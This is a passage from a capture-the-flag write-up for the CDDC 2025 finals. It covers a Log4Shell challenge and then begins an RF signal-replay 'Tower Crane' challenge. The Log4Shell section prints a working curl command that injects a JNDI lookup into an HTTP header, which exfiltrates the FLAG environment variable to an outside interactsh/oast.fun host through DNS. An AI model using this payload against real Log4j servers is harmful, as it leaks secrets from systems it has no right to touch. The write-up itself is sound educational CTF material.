 I tried a few random payloads until I eventually found one that worked by
attaching it in the `X-Api-Version` header when sending a request to the server.
I used [interactsh](https://app.interactsh.com/) to generate the url for the
payload.

`curl chal.h4c.cddc2025.xyz:57843 -H 'X-Api-Version: ${jndi:dns://${ENV:FLAG}.vhcfpcradxacygfxgsah4kxp1wpxi7d7h.oast.fun}'`

With this payload, the `FLAG` environment variable will be prepended as a
subdomain. After running the curl command, the flag was in interactsh client.

![interactsh](./002-cddc-2025-finals/log4shell.png)
`CDDC2025{4p4ch3_l0645h3ll_15_r34lly_cr171c4l!!}`

## Tower Crane

| Category | RF  |
| -------- | --- |
| Points   | 75  |

```
We have enough data to control the Tower Crane. But, we don't have much time. Please control the Tower Crane in 3 minutes.

Your mission is to move the crane to the designated drop area. Get to the stage to identify the location of the drop area.

This challenge requires GNU Radio Companion (GRC). In GRC, reverse the flow of the blocks and then replay the given signal file just enough times to get to the designated drop area.

Please head to the Queue Management Area to the right side of the stage, to register your team and queue up for the challenge.
```

In this challenge, we are given 3 files `capture.grc`, `capture.py`, and `left`.
This challenge makes use of GNU Radio Companion (GRC), GRC is a GUI tool for
using GNU Radio. It provides drag and drop blocks for signal processing
purposes.
